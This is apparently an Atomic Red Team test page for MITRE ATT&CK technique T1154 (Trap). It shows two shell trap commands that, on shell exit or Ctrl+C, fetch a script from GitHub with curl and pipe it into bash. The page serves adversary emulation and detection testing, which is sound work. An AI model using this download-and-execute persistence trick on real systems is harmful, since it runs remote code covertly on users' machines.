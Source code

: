 # Trap

## MITRE ATT&CK Technique:
[T1154](https://attack.mitre.org/wiki/Technique/T1154)

## Command
    trap 'nohup curl -sS https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/Linux/Payloads/echo-art-fish.sh | bash' EXIT

    exit

## After exiting the shell, the script will download and execute.

    trap 'nohup curl -sS https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/Linux/Payloads/echo-art-fish.sh | bash' INT

## After sending a keyboard interrupt (CTRL+C) the script will download and execute.
